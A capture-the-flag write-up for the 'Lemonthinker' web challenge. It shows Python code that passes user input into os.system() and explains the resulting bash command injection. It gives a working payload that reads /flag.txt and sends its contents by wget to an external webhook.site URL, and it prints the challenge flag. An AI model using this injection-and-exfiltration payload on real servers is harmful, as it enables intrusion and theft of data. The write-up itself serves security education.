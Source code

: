 ```yaml
---
grand_parent: Categories
parent: Web
title: Lemonthinker
nav_order: 2
---
```


# Lemonthinker

```
generate your lemonthinks here!
```

## Challenge

> TL;DR: Bash command injection.

The source code for this challenge isn't too long, which makes the glaring vulnerability even more obvious:

**Source**: `app/app.py`
```py
text = request.form.getlist('text')[0]
text = text.replace("\"", "")
filename = "".join(random.choices(chars,k=8)) + ".png"
os.system(f"python3 generate.py {filename} \"{text}\"")
```

That's right, the user-controlled variable `text` (coming from the HTTP parameter `text`) is being inserted directly into an `os.system()` function call. We can execute OS commands by wrapping them inside `$()`, such as `$(whoami)`.

Let's read the flag and exfiltrate to our external server. Send the following string in the 

```bash
$(cat /flag.txt | xargs -I{} wget "https://webhook.site/c6cf5fb0-9a87-439d-aa8c-4dfbb3a65fef/?flag={}")
```

<img src="images/lemonthinker-01.jpg">

:lemonthink: and the flag will be delivered 😎🚩

<img src="images/lemonthinker-02.jpg">

Flag: `rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf}`
